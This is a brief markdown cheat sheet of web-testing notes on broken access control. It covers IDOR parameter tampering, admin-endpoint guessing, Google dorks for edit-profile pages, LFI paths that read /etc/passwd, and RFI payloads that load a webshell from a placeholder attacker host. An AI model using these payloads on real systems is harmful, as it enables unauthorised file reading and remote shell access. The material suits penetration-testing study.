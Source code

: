 # Broken Access Control

## IDOR - Insecure Direct Object Reference
- ```?customer_number=132354```

## Missing Functional Level Access Control
- http://example.com/app/getappinfo => http://example.com/app/admin_getappinfo
- GHDB
  - site:ir inurl:editform.aspx
  - site:ir inurl:editprofile.php
- Login => Visit & save all pages => Logout => Check access to all pages


## File Access Attach
- LFI
  - ```index.php?page=../../../../../../../../../../etc/passwd``` 
  - ```index.php?page=../../../../../../../../../../etc/passwd%00```
- RFI
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
